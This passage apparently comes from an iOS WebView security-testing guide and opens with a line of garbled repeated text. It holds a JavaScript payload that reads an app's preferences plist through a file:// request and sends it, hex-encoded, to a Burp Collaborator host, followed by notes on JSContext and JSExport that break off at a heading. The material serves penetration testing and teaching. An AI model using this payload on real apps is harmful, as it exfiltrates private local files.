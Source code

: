 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa' 'e' yInIDqa'
```javascript
String.prototype.hexEncode = function(){
var hex, i;
var result = "";
for (i=0; i<this.length; i++) {
hex = this.charCodeAt(i).toString(16);
result += ("000"+hex).slice(-4);
}
return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var xhr2 = new XMLHttpRequest();
xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
xhr2.send(null);
}
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
## Native Methods Exposed Through WebViews

## Understanding WebView Native Interfaces in iOS

From iOS 7 onwards, Apple provided APIs for **communication between JavaScript in a WebView and native** Swift or Objective-C objects. This integration is primarily facilitated through two methods:

- **JSContext**: A JavaScript function is automatically created when a Swift or Objective-C block is linked to an identifier within a `JSContext`. This allows for seamless integration and communication between JavaScript and native code.
- **JSExport Protocol**: By inheriting the `JSExport` protocol, native properties, instance methods, and class methods can be exposed to JavaScript. This means any changes made in the JavaScript environment are mirrored in the native environment, and vice versa. However, it's essential to ensure that sensitive data is not exposed inadvertently through this method.

### Accessing `JSContext` in Objective-C

In Objective-C, the `JSContext` for a `UIWebView` can be retrieved with the following line of code:
```objc
[webView valueForKeyPath:@"documentView.webView.mainFrame.javaScriptContext"]
```
### Communication with `WKWebView`
